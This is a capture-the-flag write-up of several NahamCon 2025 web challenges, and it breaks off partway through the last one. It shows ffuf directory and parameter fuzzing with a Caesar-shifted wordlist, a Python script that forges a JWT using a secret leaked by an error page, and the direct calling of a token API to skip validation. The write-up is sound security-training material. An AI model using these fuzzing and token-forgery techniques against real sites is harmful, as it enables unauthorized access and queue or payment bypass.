# Web

## My Second CTF

[](mysecondctfchall.png)

We were provided with a wordlist.  Looking at the site nothing is really obvious. 

[](mysecondctf.png)

It felt like this was going to be caesar cipher related based on the my first ctf challenge.  So I took the wordlist and created a wordlist with all caesar cipher possibilities. 

```python
def caesar_shift(word, shift):
    result = []
    for char in word:
        if char.isalpha():
            base = ord('A') if char.isupper() else ord('a')
            # shift and wrap around alphabet
            shifted = chr((ord(char) - base + shift) % 26 + base)
            result.append(shifted)
        else:
            result.append(char)  # non-alpha chars unchanged
    return ''.join(result)

input_file = 'wordlist.txt'
output_file = 'wordlist_caesar_all_shifts.txt

with open(input_file, 'r') as fin, open(output_file, 'w') as fout:
    for line in fin:
        word = line.strip()
        if not word:
            continue
        for shift in range(1, 26):  # shifts 1 to 25
            shifted_word = caesar_shift(word, shift)
            fout.write(shifted_word + '\n')

print(f"All Caesar shifts generated: {output_file}")

```

With this new wordlist I could use ffuf to check for any hidden directories. 

```bash
ffuf -u http://challenge.nahamcon.com:31993/FUZZ -w wordlist_caesar_all_shifts.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:31993/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Documents/ctf/nahamconctf2025/warmup/web/my_second_ctf/wordlist_caesar_all_shifts.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

fgdwi                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 121ms]
:: Progress: [2550/2550] :: Job [1/1] :: 336 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

When looking at that page we saw.

[](missingparam.png)

Lets try find the missing param.

```bash
ffuf -u 'http://challenge.nahamcon.com:30815/fgdwi/?FUZZ=me' -w wordlist_caesar_all_shifts.txt -fs 48 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:30815/fgdwi/?FUZZ=me
 :: Wordlist         : FUZZ: /home/kali/Documents/ctf/nahamconctf2025/warmup/web/my_second_ctf/wordlist_caesar_all_shifts.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 48
________________________________________________

eqphkto                 [Status: 200, Size: 49, Words: 1, Lines: 1, Duration: 118ms]
:: Progress: [2550/2550] :: Job [1/1] :: 294 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

Got a hit with `eqphkto` which equated to `confirm`. 

Which gave us the flag.

[](ctfflag2.png)

## My third CTF

[](mythirdctfchall.png)

Similar to my second ctf I used the wordlist I had created and ran it against the url subsequent times to find the full url giving the flag.

[](mythirdctfflag.png)

## Infinite queue

[](infinitequeuechall.png)

There was an option to join the queue for tickets. 

[](queue.png)

Upon joining you are giving a JWT with a very long wait time. 

[](longwait.png)

[](jwt.png)

I tried create a None alg JWT and used that, which gave a 500 error which disclosed the JWT secret.

[](jwt_secret.png)

I could now forge a JWT with low wait time, to bypass the queue. 

```python
import jwt
import time

secret = "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"

payload = {
    "user_id": "me@me.htb",
    "queue_time": 20,  # set this to 0 or any small value
    "exp": int(time.time()) + 3600 * 24 * 365  # 1 year from now, adjust as needed
}

# Encode JWT using HS256 and your secret
token = jwt.encode(payload, secret, algorithm="HS256")

print("Modified JWT:")
print(token)

```

[](purchase.png)

With that I was able to get the flag.

[](queueflag.png)

## Advanced screening

[](advancedscreeningchall.png)

We see a site.

[](advancedscreening.png)

But looking at the app.js file we see an interesting function which is called after previous functions to validate codes etc:

```javascript
const tokenResponse = await fetch('/api/screen-token', {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({ user_id: data.user_id })
                }
```

So rather than trying to get a valid code, we can just search for screen-tokens via user_id.  

A few attempts yields nothing, but then we find something. 

[](notfound.png)

[](hash.png)

We can now use something else in the js file

```javascript
               if (tokenResponse.ok && tokenData.hash) {
                    window.location.href = `/screen/?key=${tokenData.hash}`;
                }
```

[](screenflag.png)

## Method in the madness

[](methodinthemadnesschall.png)

Looking at the site there are some check boxes and a link to a page. 

[](methodpage.png)

The linked page is just this.

[](interesting.png)

But after visiting I notice one of the checkboxes is now filled in.  

